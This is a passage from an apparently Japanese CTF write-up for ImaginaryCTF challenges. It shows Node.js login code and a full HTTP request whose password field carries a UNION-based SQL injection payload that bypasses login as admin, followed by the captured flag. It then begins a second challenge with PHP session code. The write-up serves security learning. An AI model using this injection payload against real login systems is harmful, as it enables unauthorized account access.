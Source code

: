 ```js
      } else {
        console.log(row);
        if (row) {
          req.session.loggedIn = true;
          req.session.username = username;
          res.send("Login successful!");
        } else {
          res.status(401).send("Invalid username or password");
        }
      }
    }
  );
});
<SNIP>
```

SQLインジェクションでadminとしてログインすればよい。  
ただし、adminのデータがデータベースに存在しないため、UNION句を使って空のadminデータをつける必要がある。

```http
POST /login HTTP/1.1
Host: blank.chal.imaginaryctf.org
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://blank.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://blank.chal.imaginaryctf.org/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close

username=admin&password=a"union+all+select+null,"admin",null;--+-
```

その後`/flag`にアクセスするとフラグがもらえる。

```text
ictf{sqli_too_powerful_9b36140a}
```

## idoriot-revenge

ログインすると、ソースコードが見れる。

```php
<?php

session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

```